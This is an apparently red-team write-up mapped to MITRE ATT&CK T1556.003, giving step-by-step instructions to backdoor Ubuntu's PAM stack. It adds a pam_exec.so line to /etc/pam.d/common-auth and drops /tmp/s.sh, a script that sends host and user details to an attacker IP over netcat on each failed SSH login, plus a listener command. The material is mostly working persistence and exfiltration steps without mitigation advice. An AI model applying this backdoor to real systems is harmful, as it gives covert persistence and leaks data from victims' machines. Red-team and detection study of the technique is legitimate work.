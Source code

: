 ## [T1556.003-Modify Authentication Process: Pluggable Authentication Modules](https://attack.mitre.org/techniques/T1556/003/)  

### Background  
The pam_exec.so module in Linux Pluggable Authentication Modules (PAM) provides a flexible mechanism to execute custom scripts during various authentication stages. While commonly used for legitimate logging and running scripts for automation, this feature can be maliciously abused to trigger backdoor scripts in response to specific authentication events. In this scenario lets see how to trigger backdoor for SSH failure logins on Ubuntu 22.04 and maintain persistence. This technique can work in all other ubuntu environments as well. While Group-IB showcased this [technique](https://www.group-ib.com/blog/pluggable-authentication-module/) on Red Hat-based systems like Fedora and CentOS, they didn’t cover Debian-based environments. Here, I demonstrate how the same method works on Ubuntu or Debian-Based Systems. 
### Test Environment: 
**Victim:** Ubuntu 22.04    
**Attacker:** Ubuntu 24.04 (You can choose any OS vendor for this)  
Install netcat on Attacker system.  
**Note:** You can try with any Operating Systems.  

### Implementation:  

#### Step1: Change the PAM config
At victim side, for getting persistence edit the file /etc/pam.d/common-auth file and add the following line below pam_unix.so line.  
``vim /etc/pam.d/common-auth``   
``auth optional pam_exec.so quiet setuid /tmp/s.sh``  
**Note1:** /tmp/s.sh file a backdoor script in this scenario.   
**Note2:** In PAM configuration, the **success=N** directive means: If the current module succeeds, skip the next N lines. So if the ssh authentication is successful the module has to skip the next  3 followed lines. Since the SSH authentication module currently uses success=2, and we are adding an additional line below it, we need to update this value to success=3 to ensure the correct number of lines are skipped on successful authentication.    
**Before:**   

![image](https://github.com/user-attachments/assets/da285bd7-1df4-40e2-9352-1e243c80b773)    

**After:**   

You can observe the modified success value to 3 in pam_unix.so line as shown.  

![PAM-Exec-SSHFailure](https://github.com/user-attachments/assets/d3cf8ab4-b491-46fc-a378-865b55e71808)  
Once you make any changes to PAM configuration you have to restart  
sudo systemctl restart ssh  


#### Step2: Drop Backdoor script 
At victim side. 
**Backdoor script:** 
```
#!/bin/bash 

REMOTE_IP="<attackerIP>" 
REMOTE_PORT="4444" 
echo -e "Hostname: $(hostname)\nUser: $(whoami)\nUptime: $(uptime)\nOSDetails:$(uname -a)" | nc $REMOTE_IP $REMOTE_PORT
```  
``chmod 770 /tmp/s.sh``  
``chmod +x /tmp/s.sh``  

#### Step3: Listen for incoming connections and try ssh auth failures - Attacker Side:  
listen for incoming connections.  
```nc -lvp 4444```  
Try repeatedly logging into the victim machine’s SSH with invalid credentials to generate authentication failures that will trigger the backdoor as shown below screenshot.  
```ssh user@<victimIp>```    
Finally the output looks like below.  

![2025-06-03_21-09](https://github.com/user-attachments/assets/89aadc9b-46ca-4925-8996-c6305434d260)  
